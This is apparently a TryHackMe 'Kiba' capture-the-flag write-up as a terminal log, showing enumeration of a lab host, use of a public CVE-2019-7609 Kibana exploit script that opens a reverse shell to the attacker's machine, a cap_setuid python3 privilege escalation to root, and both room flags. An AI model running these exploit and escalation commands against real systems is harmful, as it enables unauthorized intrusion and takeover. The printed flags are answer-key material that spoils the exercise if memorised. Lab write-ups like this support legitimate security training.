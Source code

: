 link: https://tryhackme.com/room/kiba
## Enumeration

<code>
┌──(duke㉿kali)-[~/Documents/THM_Kiba]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.124.166 -x .txt,.php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.124.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2024/02/16 02:48:08 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1291]
/server-status        (Status: 403) [Size: 278] 
                                                
===============================================================
2024/02/16 03:43:29 Finished
===============================================================
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Kiba]
└─$ nmap  -p- -Pn 10.10.124.166
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-16 03:57 CST
Nmap scan report for 10.10.124.166
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent

Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds

## Found Kibana Version: 6.5.4 vulnerable 
link: https://systemweakness.com/this-kibana-vulnerability-can-give-you-rce-in-a-snap-kibana-cve-2019-7609-7de49112139e

## Use exploit and get reverse shell
link: https://github.com/LandGrey/CVE-2019-7609

┌──(duke㉿kali)-[~/Documents/THM_Kiba]
└─$ python2 CVE-2019-7609-kibana-rce.py -u http://10.10.124.166:5601 -host 10.x.x.x -port 4443 --shell 
[+] http://10.10.124.166:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 10.x.x.x:4443
                                                                           

kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
kiba@ubuntu:/home/kiba$ THM{1s_easy_pwn3d_k1bana_w1th_rce}
THM{1s_easy_pwn3d_k1bana_w1th_rce}
THM{1s_easy_pwn3d_k1bana_w1th_rce}: command not found
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
kiba@ubuntu:/home/kiba$ 

## Privilage Escalation 

iba@ubuntu:/$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

kiba@ubuntu:/home/kiba$ ls -la
total 110664
drwxr-xr-x  6 kiba kiba      4096 Mar 31  2020 .
drwxr-xr-x  3 root root      4096 Mar 31  2020 ..
-rw-------  1 kiba kiba      9605 Mar 31  2020 .bash_history
-rw-r--r--  1 kiba kiba       220 Mar 31  2020 .bash_logout
-rw-r--r--  1 kiba kiba      3771 Mar 31  2020 .bashrc
drwx------  2 kiba kiba      4096 Mar 31  2020 .cache
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .hackmeplease
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .nano
-rw-r--r--  1 kiba kiba       655 Mar 31  2020 .profile
-rw-r--r--  1 kiba kiba         0 Mar 31  2020 .sudo_as_admin_successful
-rw-r--r--  1 root root       176 Mar 31  2020 .wget-hsts
-rw-rw-r--  1 kiba kiba 113259798 Dec 19  2018 elasticsearch-6.5.4.deb
drwxrwxr-x 11 kiba kiba      4096 Dec 17  2018 kibana
-rw-rw-r--  1 kiba kiba        35 Mar 31  2020 user.txt

kiba@ubuntu:/home/kiba$ cd .hackmeplease
kiba@ubuntu:/home/kiba/.hackmeplease$ ls -la
total 4356
drwxrwxr-x 2 kiba kiba    4096 Mar 31  2020 .
drwxr-xr-x 6 kiba kiba    4096 Mar 31  2020 ..
-rwxr-xr-x 1 root root 4452016 Mar 31  2020 python3

kiba@ubuntu:/home/kiba/.hackmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<kmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'   
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
pwd          
/home/kiba/.hackmeplease
cd /root
ls
root.txt
ufw
cat root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}

</code>
